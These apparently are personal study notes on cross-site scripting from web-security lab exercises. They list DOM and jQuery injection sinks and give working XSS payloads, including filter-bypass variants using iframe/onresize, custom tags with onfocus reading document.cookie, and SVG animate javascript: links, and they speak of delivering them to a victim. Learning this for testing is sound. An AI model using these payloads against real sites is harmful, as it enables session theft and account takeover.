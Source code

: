 ## Vulnerable sinks for DOM-XSS:
```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```
jQuery sinks:
```
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

## XSS contexts
When testing for XSS key task is to determine where attacker-controleld input appears and how it's validated.
Cheat-sheet for [XSS](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### XSS between HTML tags
In such case we need to provide some new HTML tags to execute JS code:
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
When site sanitizes our input, we can bypass such restriction with help of Burp Intruder and XSS cheatsheet. For example we aren't able to call some function directly with <script></script>, we can use some paylaod like this and deliver it to our victim:
```
<iframe src=https://0a8500ca04d32bb48177ee3100eb006b.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
Here we are using tag body with attributes `onresize` which executes script and onload to resize original size of iframe  
If website blocks any tag, we can use custom such as `<xss>`:
```
location=URL/search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
```
Lot of tags and all events are blocked:
```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```
```
```